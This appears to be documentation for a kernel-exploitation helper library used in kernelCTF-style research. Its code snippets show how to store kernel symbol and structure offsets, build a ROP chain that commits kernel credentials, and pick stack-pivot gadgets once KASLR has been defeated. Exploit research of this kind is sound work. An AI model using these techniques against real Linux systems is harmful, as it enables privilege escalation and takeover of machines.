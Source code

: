 How to get started
==================

Creating a Database
-------------------

1.  Add the necessary includes to the exploit code.

    .. code-block:: c++

        #include <cassert>
        #include <target/TargetDb.cpp>
        #include <test/kpwn/Kpwn.cpp>
        #include <util/incbin.cpp>
        #include <util/syscalls.cpp>
        #include <util/error.cpp>
        #include <util/pwn_utils.cpp>
        #include <payloads/Payload.cpp>
        #include <util/HexDump.cpp>
        #include <util/ArgumentParser.cpp>
        #include <pivot/PivotFinder.cpp>
        #include <pivot/StackPivot.cpp>
        #include <payloads/PayloadBuilder.h>
        #include <payloads/PayloadBuilder.cpp>

2.  Include the **target\_db** in the exploit. ``INCBIN`` creates a read-only section in the binary with the file contents.

    .. code-block:: c++

        INCBIN(target_db, "target_db.kpwn");

3.  Initialize **TargetDb**:

    .. code-block:: c++

        TargetDb kpwn_db(target_db, target_db_size);

4.  Already available in database structure and symbol offsets are documented in ``kpwn_db/config.py``. They are added for all the supported targets.

5.  If the needed symbol is not in database, use ``StaticTarget`` object to add it. One object per target needed. For example:

    .. code-block:: c++

        StaticTarget st("kernelctf", "cos-105-17412.294.34");

        st.AddSymbol("nft_last_ops", 0x1acaf20);

        kpwn_db.AddStaticTarget(st);

6.  Similar approach could be taken for adding structure and fields information:

    .. code-block:: c++

        StaticTarget st("kernelctf", "cos-105-17412.294.34");

        st.AddStruct("nft_expr_ops", 128,
                    {{"dump", 64, 8},
                    {"type", 120, 8}});

        kpwn_db.AddStaticTarget(st);

    .. note::
        ``128`` in the example above is a size of the ``nft_expr_ops`` structure. ``{"dump", 64, 8}`` field is located at the offset of 64 and as is a pointer, size would be 8 for 64-bit architecture.

7.  Access pre-defined or added (via ``StaticTarget``) structures and symbols using following calls:

    .. code-block:: c++

        auto offset = structs.at("nft_expr_ops").size + structs.at("nft_expr_ops").fields.at("type").offset; // get the size and offset of type field in nft_expr_ops structure   

        *(uint64_t *)&buffer[offset] = kernel_base + target.GetSymbolOffset("nft_last_ops"); // the address of nft_last_ops

8.  Detect which target **TargetDb** is being run on.

    .. code-block:: c++

        auto target = kpwn_db.AutoDetectTarget();
        printf("[+] Running on target: %s %s\n", target.distro.c_str(), target.release_name.c_str());

---

Building the Payload
--------------------

After leaking a kernel address and calculating the KASLR base, you can begin constructing the exploit payload.

1.  Initialize a ``Payload`` object. This will serve as the buffer for our ROP chain and other necessary data.

    .. code-block:: c++

        Payload payload(1024);

2.  If the payload contains constants / areas that should not be overwritten by ``PayloadBuilder``, mark them as reserved:

    .. code-block:: c++

        payload.Reserve(0, 8);

    .. note::
        Reserves 8 bytes at offset 0.

3.  Create the ``RopChain``. This object is initialized with target-specific information and the KASLR base. You can then add predefined actions to it. The ``Ret2Usr`` utility helps in gracefully returning execution to a user-mode function after the kernel operations are complete.

    .. code-block:: c++

        RopChain rop(target, kaslr_base);
        rop.AddRopAction(RopActionId::COMMIT_KERNEL_CREDS);
        RopUtils::Ret2Usr(rop, (void*)win);

    .. note::
        Available ROP actions could be found in ``kpwn_db/config.py``.

---

Assembling the Final Payload with PayloadBuilder
------------------------------------------------

The ``PayloadBuilder`` automates the process of finding a suitable pivot gadget and combining it with your payload and ROP chain.

1.  Initialize the ``PayloadBuilder`` with the target's available pivot gadgets and the KASLR base.

    .. code-block:: c++

        PayloadBuilder builder(target.pivots, kaslr_base);

2.  Add the ``payload`` object to the builder. You need to specify which register will point to your payload buffer (e.g., ``Register::RSI``) and the offset within that buffer where the instruction pointer (``rip``) will be hijacked.

    .. code-block:: c++

        uint64_t rip_off = fake_ops_offs + release_offs; // Calculated offset for RIP control
        builder.AddPayload(payload, Register::RSI, rip_off);

    In the situation when multiple registers contain a pointer to the payload, it's worth informing ``PayloadBuilder`` about it:

    .. code-block:: c++

        uint64_t rip_off = fake_ops_offs + release_offs; // Calculated offset for RIP control
        builder.AddPayload(payload, {Register::RSI, Register::RAX}, rip_off);

    ``PayloadBuilder`` is capable of handling multiple buffers (and use them if needed to accomodate ROP chain actions). To inform ``PayloadBuilder`` about such a setup use:

    .. code-block:: c++

        Payload payload1(payload_size_1);
        Payload payload2(payload_size_2);
        PayloadBuilder builder(target.pivots, kernel_base); // create builder

        builder.AddPayload(payload1, std::nullopt, std::nullopt);
        builder.AddPayload(payload2, Register::RSI, rip_off); // add payload, with register, and rip_offset     

3.  Add the ``RopChain`` to the builder.

    .. code-block:: c++

        builder.AddRopChain(rop);

4.  Build the final payload. The ``Build()`` method will find an appropriate pivot gadget that uses the specified register (``RSI`` in this case) to redirect execution to your ROP chain. The necessary gadgets and the ROP chain itself will be written into the ``payload`` object you provided earlier.

    .. code-block:: c++

        if(!builder.Build()) 
            exit(-1); 

    Once built, the ``payload`` object contains the complete, ready-to-use exploit payload.

5.  In cases when pointer to pivot gadget should be part of some other buffer or passed as a parameter it could be obtained in the following way after building the final payload:

    .. code-block:: c++

        *(uint64_t *)&some_buffer[offset] = kernel_base + builder.GetStackPivot().GetGadgetOffset();
